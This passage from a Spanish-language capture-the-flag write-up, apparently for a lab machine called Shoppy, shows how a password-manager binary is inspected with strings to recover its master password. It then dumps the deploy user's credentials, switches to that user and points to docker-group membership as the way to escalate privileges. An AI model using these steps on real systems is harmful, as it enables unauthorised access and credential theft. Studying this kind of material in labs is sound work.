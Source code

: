 ```
GCC_3.0  
GLIBC_2.2.5     
CXXABI_1.3        
GLIBCXX_3.4          
GLIBCXX_3.4.21                                                                                
u/UH   
[]A\A]A^A_    
Welcome to Josh password manager!
Please enter your master password:                                                            
Access granted! Here is creds !
cat /home/deploy/creds.txt                                                                    
Access denied! This incident will be reported !
```

Dentro de las cadenas imprimibles, vemos que nos solicita ingresar la contraseña maestra y además nos arroja el contenido del archivo `/home/deploy/creds.txt`. Vamos a pasarle el parámetro `-e` al comenado `strings` para tratar de ver contenido que se encuentra cifrado. El parámetro `-e` requiere de un valor que, para este caso, utilizaremos **l - 16-bit littleendian**.

```
jaeger@shoppy:~$ strings -el /home/deploy/password-manager
Sample
jaeger@shoppy:~$
```

Tenemos la cadena de texto ***Sample***; por lo que podríamos usarla de contraseña al momoento de ejeuctar el binario.

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:~$
```

Tenemos las credenciales del usuario **deploy**, por lo que podemos migrar a dicho usuario.

```
jaeger@shoppy:~$ su deploy
Password: 
$ /bin/bash
deploy@shoppy:/home/jaeger$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:/home/jaeger$
```

El usuario **deploy** se encuentra dentro del gropo ***docker***; por lo que ya sabemos como escalar privilegios.

```
deploy@shoppy:/home/jaeger$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
deploy@shoppy:/home/jaeger$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
deploy@shoppy:/home/jaeger$
```
